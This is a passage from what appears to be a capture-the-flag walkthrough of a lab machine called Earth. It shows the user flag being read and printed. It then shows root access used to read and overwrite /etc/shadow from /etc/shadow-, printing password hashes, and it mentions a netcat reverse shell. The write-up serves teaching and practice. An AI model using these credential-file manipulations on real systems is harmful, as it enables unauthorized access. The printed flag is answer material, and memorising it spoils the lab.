/usr/local/lib/python3.9/site-packages/django/contrib/admin/migrations/__pycache__/0003_logentry_add_action_flag_choices.cpython-39.pyc
/home/earth/.local/lib/python3.9/site-packages/django/contrib/admin/migrations/0003_logentry_add_action_flag_choices.py
/home/earth/.local/lib/python3.9/site-packages/django/contrib/admin/migrations/__pycache__/0003_logentry_add_action_flag_choices.cpython-39.pyc
```

Aha! Our boy must be the file **/var/earth\_web/user\_flag.txt**

```
[root@earth earth]# cat /var/earth_web/user_flag.txt
cat /var/earth_web/user_flag.txt
[user_flag_3353b67d6437f07ba7d34afd7d2fc27d]
[root@earth earth]#
```

So the user flag is **3353b67d6437f07ba7d34afd7d2fc27d**

### Reversing any harmful changes done to the system

Before recapping, we must reverse any changes or damage done to the target. We have changed the 
root password, which is a very important thing. We should reverse the root access back to the old password. Generally speaking, someone shouldn't try to target machines that he does not own without authorization from the owner. Also, servers in production or otherwise should not be altered in any way. In case that they do, the changes must be reversed as much as possible. If serious changes take place and we suspect that this may have an impact to a production server then the owner must be notified about the changes and duration that took place.

To build good habits we should reverse the change, that is, change the root password back to original. If this looks impossible at first to some (as we don't really know the original password), it really isn't. In fact it is very easy if someone has root access. Linux never saves user passwords anywhere; it saves only the hash of the passwords, which it creates only when the account is created or a password is changed. After that, it deletes the password from its memory and the hash stays in the disk. Every time someone is trying to login the OS hashes the password, compare the hashes and allows login if they match. All hashes are in the file */etc/shadow*. Fortunately, because Linux is a vary good architected OS and grained to detail, it keeps the previous changes in another file, namely */etc/shadow-*. Let us see this in reversing the password change:

```
[root@earth ~]# cd /etc
cd /etc
[root@earth etc]# ls shadow*
ls shadow*
shadow  shadow-
[root@earth etc]# diff shadow shadow-
diff shadow shadow-
1c1
< root:$6$GtLOO.2UDL4h2YMi$hsC6K1p34sZF44D1bF5tJ55WJ.LsqgCysmiUAMoAyRIcdnfEPMGeAdzVQD5ja6nSMPjxDzrYGvMTx8Glc78jd0:19052:0:99999:7:::
---
> root:$6$Jaen7ADnpnqrafSX$nebMBQLcNH1S2yEp883zJBSAm6sjNsj5neacek7C7EH9T1QkAk7NxnKi0v0tTjAJS2cCQChqiDCtDJl0M4ShD0:18913:0:99999:7:::
[root@earth etc]# cp shadow- shadow
cp shadow- shadow
cp: overwrite 'shadow'? yes
yes
[root@earth etc]# diff shadow shadow-
diff shadow shadow-
[root@earth etc]#
```

Now */etc/shadow* has the hash of the original password. Indeed:

```
[root@earth etc]# exit
exit
exit
bash-5.1$ whoami
whoami
apache
bash-5.1$ su root
su root
Password: Earth

su: Authentication failure
```

Perfect. We are done. We close the port we used as anchor to our system by *nc*.
We could also try covering our tracks by cleaning apache log files in */var/log*, history files etc but this is beyond the scope of getting the flags and also is closer to black hat hacking, so let's skip this part.

### Conclusion


